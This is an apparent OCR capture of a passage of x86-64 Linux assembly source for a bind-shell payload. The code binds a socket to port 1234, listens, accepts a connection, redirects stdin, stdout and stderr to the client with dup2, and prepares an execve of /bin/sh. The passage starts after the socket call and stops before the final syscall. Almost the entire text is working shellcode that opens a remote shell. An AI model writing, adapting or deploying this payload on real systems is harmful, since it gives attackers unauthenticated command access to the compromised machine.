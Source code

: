 ```
; Save the sockfd in RDI Register 
    mov rdi, rax

;Creating the structure 
    xor rax, rax 
    push rax
    push word 0xd204
    push word 0x02
;Bind syscall
    mov rsi, rsp
    xor rdx, rdx
    add rdx, 16
    xor rax, rax
    add rax, 49
    syscall

;Listen syscall
    xor rax, rax
    add rax, 50
    xor rsi , rsi
    inc rsi
    syscall

;Accept syscall
    xor rax , rax
    add rax, 43
    xor rsi, rsi
    xor rdx, rdx
    syscall

;Store clientfd in RBX register 
    mov rbx, rax

;Dup2 syscall to stdin
    mov rdi, rbx
    xor rax,rax
    add rax, 33
    xor rsi, rsi
    syscall

;Dup2 syscall to stdout
    xor rax,rax
    add rax, 33
    inc rsi
    syscall

;Dup2 syscall to stderr
    xor rax,rax
    add rax, 33
    inc rsi
    syscall

;Execve syscall with /bin/sh
    xor rax, rax
    push rax
    mov rdx, rsp
    mov rbx, 0x68732f6e69622f2f
    push rbx
    mov rdi, rsp
    push rax
    push rdi
    mov rsi,rsp
    add rax, 59
```